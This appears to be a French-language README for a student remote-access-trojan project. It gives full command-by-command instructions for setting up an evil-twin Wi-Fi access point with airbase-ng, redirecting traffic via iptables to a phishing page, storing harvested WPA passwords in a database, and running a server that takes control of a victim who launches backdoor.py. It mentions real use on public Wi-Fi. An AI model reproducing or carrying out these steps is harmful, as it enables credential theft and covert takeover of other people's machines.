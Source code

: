 # RAT Project - MGS
#### Maxime Chasson - Sacha Perrin - Grégoire Matthieu
## READ ME

### Installation : 

Prérequis : 

- 2 VM Linux
- Point access portable
- Python 3
- Mettre à jour python si besoin (pip install --upgrade pip)
- Mettre à jour la machine Linux (apt-get update)
- Installer le Packages (mss)
- Installer le Packages (requests)
- Installer le Packages (pynput)

### Machine Virtuelle attanquant : 

Si vous utilisez notre solution localement sur deux machines virtuelles, rendez-vous directement à l'Étape 1.

Pour configurer la VM attanquant, vous aurez besoin de Kali Linux à jour, avec votre point d'accès mobile branché.

Installez les packages requis :

```apt update```

```apt install isc-dhcp-server```

```apt install mongodb```

```apt install airmon-ng```

Configurez le DHCP : 

Ouvrez votre terminal et tapez ```nano /etc/dhcpd.conf``` 
Insérez les valeurs suivantes : 

```
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast-address 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.140;
}
```

Ensuite, téléchargez la page de phishing de votre choix, naviguez dans ```/var/www/``` et extrayez y votre page.

Démarrez votre server apache et votre mongodb : 

```/etc/init.d/apache2 start```
```/etc/init.d/mongodb start```

Entrez les commandes suivantes : 

```
> mongodb -u root
> create database phishing
> use phishing
> create table wpa_keys(password varchar(64), confirm varchar(64));
```

Laissez le terminal mongodb ouvert et ouvrez un autre terminal.

Sur cet autre terminal : 

Prenez notre de votre ip locale et point d'accès mobile avec : ```ip route```

Entrez ensuite : 

```
> airmon-ng
> airmon-ng start wlan0
```

Maintenant configurez et lancez airbase : 

```
> airodump-ng-oui-update
> airodump-ng -M mon0 #Prenez ici note de l'ESSID, BSSID, et numéro de Chanell cible
> airbase-ng -e [ESSID] -c [N°Channel] -P mon0
```

Ne fermez pas le terminale airbase ni le mongodb, et ouvrez un nouveau terminal, et entrez y les commandes suivantes : 

```
> ifconfig at0 192.168.1.129 netmask 255.255.255.128
> route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129
> echo 1 > /proc/sys/net/ipv4/ip_forward
> iptables –table nat –append POSTROUTING –out-interface eth0 -j MASQUERADE
> iptables –append FORWARD –in-interface at0 -j ACCEPT
> iptables -t nat -A PREROUTING -p tcp –dport 80 -j DNAT –to-destination [IP LOCALE:80]
> iptables -t nat -A POSTROUTING -j MASQUERADE
> dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcpd.pid at0
> etc/init.d/isc-dhcp-server start
```

Votre machine est désormais prête, et votre réseau déployé.

### Phishing

Une fois votre solution déployée, vos utilisateurs peuvent être amenés à se connecter sur votre page de phishing.

Pour accéder aux données entrées par votre victime, ouvrez le terminal MongoDB et entrez les commandes suivantes : 
```
use phishing
select * from wpa_keys;
```

### Étape 1 (sur VMs locales): 
- Une fois que l'installation des prérequis est faite, il va falloir modifier   l'ip et le port dans les fichiers ``serveur.py`` et ``backdoor.py`` (mettre l'ip de ma machine attaquante | le port est aux choix)

### Étape 2 : 

- Ensuite, il suffit de lancer notre ````serveur.py```` et attendre que la victime lance le ```backdoor.py```

- Si tout se passe bien et que tout est bien configuré, la machine devrait se connecter à notre machine attaquante 

- Vous pouvez ici utiliser la commande ```help``` pour afficher les différentes options qui se présentent à vous 

![](https://cdn.discordapp.com/attachments/1069536144951357460/1109496115734257684/image.png)

#### Note : 

- Dans notre cas, nous réalisons les tests sur un réseau local. Dans le cas d'une réel utilisation, les deux machines (attaquantes et victimes) doivent être dans le même réseau. Par exemple un wifi public.

### Étape 3 : 

- Une fois toutes les étapes précédentes réalisées, le contrôle de la machine est récupéré et on peut utiliser les commandes que l'on souhaite sur la machine victime.

### Commandes : 

- Pour afficher les commandes disponibles, utilisez ```help``` une fois connecté à la machine de la victime

![](https://cdn.discordapp.com/attachments/1069536144951357460/1109496328230277252/image.png)
